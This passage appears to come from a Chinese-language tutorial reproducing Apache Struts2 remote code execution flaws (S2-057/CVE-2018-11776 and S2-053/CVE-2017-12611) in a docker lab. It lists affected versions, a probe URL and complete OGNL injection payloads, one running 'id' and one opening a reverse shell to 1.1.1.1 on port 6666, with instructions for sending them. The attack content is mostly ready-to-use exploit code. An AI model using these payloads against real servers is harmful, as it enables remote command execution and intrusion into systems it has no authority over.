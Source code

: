 执行poc之后，进入容器
查看容器id：docker ps
进入docker：docker exec -it 7f8b773067b8 /bin/bash
发现touch /tmp/success已成功执行。

S2-057 远程命令执行漏洞（CVE-2018-11776)）

S2-057漏洞产生于网站配置xml的时候，有一个namespace的值，该值并没有做详细的安全过滤导致可以写入到xml上，尤其url标签值也没有做通配符的过滤，导致可以执行远程代码以及系统命令到服务器系统中去 。
影响版本：<= Struts 2.3.34, Struts 2.5.16

访问如下url：
Default
http://ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action

进行计算既存在漏洞
执行命令的poc
Default
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
 
POC进行URL编码后插入到GET请求中即可远程命令执行

S2-053 远程代码执行漏洞（CVE-2017-12611）

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。
影响版本: Struts 2.0.1 – Struts 2.3.33, Struts 2.5 – Struts 2.5.10

环境运行后，访问http://your-ip:8080/hello.action即可看到一个提交页面
输入如下Payload即可成功执行命令：
Default
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
反弹shell
Default
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/1.1.1.1/6666 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
 
上述Payload末尾的换行不能掉，payload后面必须跟一个换行

S2-048 远程命令执行漏洞（CVE-2017-9791）

